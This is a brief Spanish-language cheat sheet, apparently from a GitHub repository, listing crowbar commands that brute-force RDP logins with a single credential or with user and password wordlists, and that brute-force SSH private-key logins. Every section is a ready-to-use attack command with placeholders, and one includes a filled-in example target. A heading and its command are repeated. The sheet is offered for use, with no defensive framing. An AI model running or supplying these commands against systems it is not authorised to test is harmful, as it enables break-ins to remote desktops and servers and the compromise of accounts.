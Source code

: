 ### Ataque de fuerza bruta a RDP usando un usuario y un password:
$ crowbar -b rdp -s {IP}/{CIDR} -u '{USERNAME}' -c {PASSWORD}
$ crowbar -b rdp -s 192.168.2.182/32 -u admin -c Password123
### Ataque de fuerza bruta a RDP usando un diccionario de usuarios y passwords:
$ crowbar -b rdp -s {IP}/{CIDR} -U {USER-LIST} -C {PASSWORD-LIST}
### Ataque de fuerza bruta a RDP usando un diccionario de usuarios y passwords, guardando el resultado en un archivo:
$ crowbar -b rdp -s {IP}/{CIDR} -U {USER-LIST} -C {PASSWORD-LIST} -o {OUTPUT}
### Ataque de fuerza bruta a RDP usando un diccionario de usuarios y passwords:
$ crowbar -b rdp -s {IP}/{CIDR} -U {USER-LIST} -C {PASSWORD-LIST}
### Ataque de fuerza bruta a llave privada SSH:
$ crowbar -b sshkey -s {IP}/{CIDR} -u {USER} -k /root/.ssh/id_rsa